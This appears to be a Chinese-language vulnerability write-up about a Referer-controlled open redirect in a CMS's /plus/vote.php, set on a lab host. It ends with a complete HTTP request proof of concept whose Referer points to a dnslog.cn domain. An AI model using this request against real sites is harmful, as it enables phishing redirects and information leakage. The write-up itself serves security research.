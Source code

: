 HTTP_REFERER可伪造注入造成的服务器信息泄露

路由地址： /plus/vote.php 

找到可控变量 $HTTP_REFERER;

 

分析代码其中 $ENV_GOBACK_URL = $_SERVER['HTTP_REFERER'] 用于记录用户来源页，并在出错时作为跳转地址。由于该值直接使用用户可控的 Referer，若在 ShowMsg() 中被用作跳转地址，可能导致 开放重定向（Open Redirect） 或 信息外带（Referer 外带） 漏洞

访问页面 http://zm.cms/plus/vote.php?aid=1

 

 

分析代码

 

当dopost=view时，才会进入循环。

 

同时，isallow=1时会直接跳转$loginurl，所以isallow不能为1

尝试构造数据

 

 

 

 

 

 

发现跳转到dnslog

 

Poc：

GET /plus/vote.php?aid=1&dopost=view&isallow=0 HTTP/1.1

Host: zm.cms

Pragma: no-cache

Cache-Control: no-cache

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Cookie: PHPSESSID=t4u664huh7ff25aef70koup9ob

referer: http://irines.dnslog.cn

Connection: close